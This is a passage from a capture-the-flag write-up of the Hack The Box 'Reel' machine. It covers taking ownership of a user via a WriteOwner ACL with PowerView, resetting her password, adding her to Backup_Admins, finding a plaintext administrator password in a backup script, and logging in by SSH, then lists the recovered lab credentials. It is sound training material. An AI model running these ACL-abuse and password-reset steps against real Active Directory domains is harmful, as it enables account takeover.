And also there is a file called `acls.csv` that has a list of permissions per object, there we can identify that our user has the privilege `WriteOwner` on user claire:
```text
"claire@HTB.LOCAL","USER","","tom@HTB.LOCAL","USER","WriteOwner","","AccessAllowed","False"
```
So we can abuse this privilege to change claire's password:
```powershell
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose
$UserPassword = ConvertTo-SecureString 'Sup3rS3cr3t123!' -AsPlainText -Force -Verbose
Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword -Credential $Cred 
```
Additionally, as per Bloodhound results it is possible for us to add `claire` user to the `Backup_Admins` group, such group has special permissions on the machine:
```powershell
$Cred = New-Object System.Management.Automation.PSCredential('HTB\claire', $UserPassword)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $Cred
```
Finally we find within the server a bunch of ps1 script so we can abuse the following PowerShell cmdlet to find the password from Administrator:
```powershell
PS C:\Users\Administrator\Desktop\Backup Scripts> Get-ChildItem -Path * | Select-string password

BackupScript.ps1:1:# admin password                                                                                             
BackupScript.ps1:2:$password="Cr4ckMeIfYouC4n!"
```
Login via SSH and WE ARE INSIDE:
```powershell
ssh administrator@10.10.10.77
administrator@10.10.10.77's password: 
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

administrator@REEL C:\Users\Administrator>
```

### Credentials
```powershell
tom:1ts-mag1c!!!
administrator:Cr4ckMeIfYouC4n!
```
### Resources

[^swaks]: SWAKS tool for SMTP Client-Side Attacks
[^creds-xml]: Creds.xml deobfuscation
